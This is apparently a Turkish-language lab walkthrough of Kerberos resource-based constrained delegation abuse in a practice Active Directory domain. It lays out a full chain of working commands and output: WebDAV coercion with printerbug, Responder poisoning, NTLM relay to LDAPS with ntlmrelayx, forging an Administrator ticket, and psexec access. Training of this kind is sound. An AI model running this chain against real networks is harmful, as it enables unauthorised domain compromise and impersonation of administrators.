

# Kerberos RBCD Abuse

## Scenario



1. SQL01 üzerinde HTTP WebDAV (WebClient) servisi başlatılır. Ardından SQL01 üzerinde PrinterBug zorlaması kullanılır.
2. SQL01 ile saldırgan arasında bir HTTP NTLM kimlik doğrulama süreci başlar.
3. Kimlik doğrulama süreci LDAP üzerinden DC hedefine aktarılır.
4. Daha önceden saldırgan tarafından oluşturulan bilgisayar SQL01 tarafından DC üzerinde SQL01 güven listesine eklenir.

## Hosts File

```sh
htb-student@ubuntu:~$ echo "172.16.117.60 sql01.inlanefreight.local" | sudo tee -a /etc/hosts
```

## Starting the WebDAV Service

| ATTACK MACHINE SERVER ADDRESS |
|---|
| 172.16.117.30 |

```sh
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.3 -u 'anonymous' -p '' -M drop-sc -o URL=https://172.16.117.30/test FILENAME=@secret
```

```output title="Output" hl_lines="4 6"
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\anonymous:
DROP-SC     172.16.117.3    445    DC01             [+] Found writable share: smb
DROP-SC     172.16.117.3    445    DC01             [+] [OPSEC] Created @secret.searchConnector-ms file on the smb share
DROP-SC     172.16.117.3    445    DC01             [+] Found writable share: Testing
DROP-SC     172.16.117.3    445    DC01             [+] [OPSEC] Created @secret.searchConnector-ms file on the Testing share
```

## Checking the WebDAV Service

```sh
htb-student@ubuntu:~$ crackmapexec smb 172.16.117.0/24 -u 'plaintext$' -p 'Password123!' -M webdav
```

```output title="Output" hl_lines="8"
SMB         172.16.117.3    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.117.50   445    WS01             [*] Windows 10.0 Build 17763 x64 (name:WS01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.60   445    SQL01            [*] Windows 10.0 Build 17763 x64 (name:SQL01) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.117.3    445    DC01             [+] INLANEFREIGHT.LOCAL\plaintext$:Password123! (Pwn3d!)
SMB         172.16.117.50   445    WS01             [+] INLANEFREIGHT.LOCAL\plaintext$:Password123!
WEBDAV      172.16.117.50   445    WS01             WebClient Service enabled on: 172.16.117.50
SMB         172.16.117.60   445    SQL01            [+] INLANEFREIGHT.LOCAL\plaintext$:Password123!
WEBDAV      172.16.117.60   445    SQL01            WebClient Service enabled on: 172.16.117.60
```

## Disabling Responder SMB and HTTP

```ini title="Responder.conf" linenums="10"
SMB      = Off
RDP      = On
Kerberos = On
FTP      = On
POP      = On
SMTP     = On
IMAP     = On
HTTP     = Off
```

## Responder

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

## Getting the Relay Ready

!!! warning

    SQL01 kendi güven listesini DC aracılığı ile günceller. Bu yüzden relay olarak DC seçilir.

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --no-dump --delegate-access --escalate-user 'plaintext$'
```

## Coercing HTTP Authentication

| TARGET | WEBDAV CONNECTION STRING |
|---|---|
| 172.16.117.60 | gibberish@80/test |

```sh
htb-student@ubuntu:~$ printerbug.py 'INLANEFREIGHT'/'plaintext$':'Password123!'@172.16.117.60 gibberish@80/test
```

```output title="Output" hl_lines="4-5"
[*] Attempting to trigger authentication via rprn RPC at 172.16.117.60
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

## Responder Results

```sh
htb-student@ubuntu:~$ sudo Responder.py -I ens192
```

```output title="Output"
[*] [MDNS] Poisoned answer sent to 172.16.117.60   for name gibberish.local
[*] [LLMNR]  Poisoned answer sent to 172.16.117.60 for name gibberish
```

## Relay Results

!!! success

    SQL01 kendi güven listesini DC üzerinde güncelledi ve plaintext$ delegasyon hakkına sahip oldu.

```sh
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --no-dump --delegate-access --escalate-user 'plaintext$'
```

```output title="Output" hl_lines="5"
[*] HTTPD(80): Connection from INLANEFREIGHT/SQL01$@172.16.117.60 controlled, attacking target ldaps://INLANEFREIGHT\SQL01$@172.16.117.3
[*] HTTPD(80): Authenticating against ldaps://INLANEFREIGHT\SQL01$@172.16.117.3 as INLANEFREIGHT/SQL01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Delegation rights modified succesfully!
[*] plaintext$ can now impersonate users on SQL01$ via S4U2Proxy
[*] All targets processed!
```

## Crafting a TGS Ticket

```sh
htb-student@ubuntu:~$ getST.py 'INLANEFREIGHT'/'plaintext$':'Password123!' -impersonate Administrator -spn cifs/SQL01.INLANEFREIGHT.LOCAL -dc-ip 172.16.117.3
```

```output title="Output" hl_lines="6"
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## Using the Ticket

```sh
htb-student@ubuntu:~$ export KRB5CCNAME='Administrator.ccache'
htb-student@ubuntu:~$ psexec.py 'INLANEFREIGHT'/'Administrator'@SQL01.INLANEFREIGHT.LOCAL -k -no-pass
```
